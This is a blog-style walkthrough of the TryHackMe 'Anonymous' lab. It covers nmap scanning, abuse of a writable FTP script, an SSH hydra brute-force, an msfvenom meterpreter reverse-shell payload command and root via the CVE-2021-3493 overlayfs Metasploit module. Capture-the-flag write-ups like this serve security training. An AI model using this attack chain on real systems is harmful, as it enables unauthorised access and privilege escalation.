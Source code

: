 ```yaml
---
title: Anonymous

date: 2022-12-17 18:32:00 -0500
categories: [Tryhackme, Walkthrough]
tags: [Enumeration, security, linux, permissions, medium]
---
```


[https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous) - A website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

* * * 

<image src="/assets/anonymous01.jpg" alt="We are anonymous">

# pwn

starting off with nmap `sudo nmap -p- anonymous.thm -vvv`

```
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.3.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

first off seem to be able to access the ftp server with `anonymous:anonymous`. inside is a `/scripts/` folder lets check it.

this script seems to check for temporary files.if there are none then it will log nothing to delete. if there are than for every tempory file deleted it will log the date and the name of the removed file then end the script.

checking the smb share there seems to be a couple jpegs. puppos being a much bigger file while much smaller image... but i think these are a rabbit hole.

running `enum4linux` we find one user `namelessone`. going to run hydra on the ssh with rockyou.

perhaps we can replace the clean.sh with our own clean.sh and call a reverse shell. doing this gets us in as namelessone. lets upgrade to a more stable meterpreter shell. `msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf LHOST=0.0.0.0 LPORT=6666 -o rev.elf`. doing this we can also run `multi/recon/local_exploit_suggester` and hope for an easy win.

running `exploit/linux/local/cve_2021_3493_overlayfs` will get us root and the root flag.
